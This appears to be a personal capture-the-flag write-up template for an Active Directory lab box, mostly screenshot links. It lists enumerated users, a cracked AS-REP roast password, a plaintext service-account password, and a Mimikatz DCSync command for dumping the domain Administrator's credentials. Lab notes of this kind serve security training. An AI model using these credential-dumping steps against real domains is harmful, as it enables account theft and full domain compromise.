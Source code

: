 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #activedirectory 

# Findings

## External
### Enumeration
![](https://i.imgur.com/S3cQ9CA.png)
Domain: EGOTISTICAL-BANK.LOCAL
- Users
	- `hsmith@EGOTISTICAL-BANK.LOCAL`
	- `fsmith@EGOTISTICAL-BANK.LOCAL`
### Gaining Access
![](https://i.imgur.com/IwIS24q.png)
![](https://i.imgur.com/d0ZeFrg.png)
`Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL)`
- Kerberostable
	- ![](https://i.imgur.com/pY4Vmqs.png)
- User `fsmith` can rdp
	- ![](https://i.imgur.com/YWgPTtK.png)
![](https://i.imgur.com/40FUo5G.png)

## Internal
### Enumeration
![](https://i.imgur.com/kDN7o9b.png)
![](https://i.imgur.com/YQ5f0bb.png)
`svc_loanmanager: Moneymakestheworldgoround!`
### Gaining Access
```
lsadump::dcsync /domain:testlab.local /user:Administrator
```
![](https://i.imgur.com/FNclUET.png)

### Maintaining Access
- The user can dc sync
	- ![](https://i.imgur.com/Rq0VIZB.png)

- ![](https://i.imgur.com/KgUcQaJ.png)
# Random Notes